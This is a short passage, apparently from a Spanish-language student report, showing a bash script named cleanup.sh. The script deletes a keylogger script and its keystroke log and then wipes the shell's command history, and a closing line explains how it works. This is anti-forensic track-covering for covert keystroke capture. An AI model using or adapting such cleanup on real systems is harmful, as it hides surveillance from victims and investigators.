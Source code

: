\begin{lstlisting}[language = bash, caption = archivo cleanup.sh]
#!/bin/bash

# Obtener la ruta del directorio del script
SCRIPT_DIR=$(dirname "$(realpath "$0")")

# Nombre del archivo del keylogger
KEYLOGGER_SCRIPT="k-log.py"
KEYLOG_FILE="keylog.txt"

# Paso 1: Eliminar archivos del keylogger
echo "Eliminando archivos del keylogger..."
rm -f "$SCRIPT_DIR/$KEYLOGGER_SCRIPT"
rm -f "$SCRIPT_DIR/$KEYLOG_FILE"

# Paso 2: Limpiar el historial de comandos
echo "Limpiando el historial de comandos..."
history -c
echo "" > ~/.bash_history

# Mensaje final
echo "Limpieza completa. El keylogger y sus rastros han sido eliminados."

\end{lstlisting}

Aquí lo primero que hacemos es buscar la ruta absoluta al archivo para después poder usarlo para remover los archivos después limpiamos el historial de bash (en particular esto no me funciono en kali pero si en ubuntu).
